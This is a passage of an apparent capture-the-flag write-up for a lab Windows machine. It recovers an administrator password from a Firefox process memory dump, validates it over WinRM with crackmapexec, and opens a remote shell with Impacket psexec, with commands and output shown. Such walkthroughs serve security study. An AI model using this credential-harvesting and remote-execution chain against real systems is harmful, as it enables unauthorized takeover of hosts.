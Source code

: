 ```
AIN=SUPPORTDESK
USERNA



abcdefghijklmnopqrstuvwxyz
ABCDEFGHIJKLMNOPQRSTUVWXYZ
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\Chase\AppData\Roaming
CommonProgramFiles=C:\Program Files\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
--
COMPUTERNAME=SUPPORTDESK
ComSpec=C:\Windows\system32\cmd.exe
DriverData=C:\Windows\System32\Drivers\DriverData
HOMEDRIVE=C:
HOMEPATH=\Windows\system32
LOCALAPPDATA=C:\Users\Chase\AppData\Local
MOZ_CRASHREPORTER_DATA_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Crash Reports
MOZ_CRASHREPORTER_EVENTS_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Crash Reports\events
MOZ_CRASHREPORTER_PING_DIRECTORY=C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Pending Pings
MOZ_CRASHREPORTER_RESTART_ARG_0=C:\Program Files\Mozilla Firefox\firefox.exe
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
--
USERDOMAIN=SUPPORTDESK
USERNAME=Chase
USERPROFILE=C:\Users\Chase
windir=C:\Windows
__PSLockdownPolicy=1
0A)3
@B)3
0B)3
 B)3
`B)3
pB)3
```

We exctract the password and find that it's valid for the administrator account:
```
# MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

% crackmapexec winrm 10.10.10.149 -u "Administrator" -p '4dD!5}x/re8]FBuZ'
WINRM       10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

And we are now root and can login to the box:
```
% psexec.py support.htb/Administrator:4dD\!5}x/re8]FBuZ@$IP
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file MsHQRGQR.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service PJfX on 10.10.10.149.....
[*] Starting service PJfX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
```